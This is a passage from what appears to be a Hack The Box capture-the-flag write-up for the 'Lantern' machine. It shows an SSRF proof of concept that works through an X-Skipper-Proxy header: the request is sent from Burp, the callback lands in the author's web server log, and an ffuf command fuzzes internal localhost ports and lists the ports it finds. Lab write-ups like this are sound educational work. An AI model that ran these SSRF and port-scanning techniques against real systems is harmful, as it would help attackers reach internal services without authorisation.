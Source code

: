 #### Lantern POC

To test this, I’ll get a request in Burp Repeater, setting the path to something interesting and the `X-Skipper-Proxy` header to my host:

![image-20240821124855003](/img/image-20240821124855003.png)

Sending it hits at my Python webserver:

```
10.10.11.29 - - [21/Aug/2024 12:48:34] code 404, message File not found
10.10.11.29 - - [21/Aug/2024 12:48:34] "GET http://lantern.htb/test/path/0xdf?foo=bar HTTP/1.1" 404 -

```

The request is from Lantern, and I have full control over the host and full URL.

I can also check for loading pages from Lantern. Loading the page on 80 returns the main site:

![image-20240821125047286](/img/image-20240821125047286.png)

The site on 3000 doesn’t render, but it shows the same HTML I noted [above](https://0xdf.gitlab.oi/2024/11/30/htb-lantern.html#tech-stack-1):

![image-20240821125140347](/img/image-20240821125140347.png)

#### Port Fuzz

I’ll check for other ports that are open on localhost hoping to find some I can’t access directly.

```

oxdf@hacky$ ffuf -u http://lantern.htb -H "X-Skipper-Proxy: http://127.0.0.1:FUZZ" -w <(seq 0 65535) -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lantern.htb
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Header           : X-Skipper-Proxy: http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

22                      [Status: 500, Size: 22, Words: 3, Lines: 2, Duration: 127ms]
80                      [Status: 200, Size: 12049, Words: 4549, Lines: 225, Duration: 101ms]
3000                    [Status: 200, Size: 2852, Words: 334, Lines: 58, Duration: 101ms]
5000                    [Status: 200, Size: 1669, Words: 389, Lines: 50, Duration: 91ms]
8000                    [Status: 200, Size: 12049, Words: 4549, Lines: 225, Duration: 98ms]
:: Progress: [65536/65536] :: Job [1/1] :: 466 req/sec :: Duration: [0:02:23] :: Errors: 0 ::

```
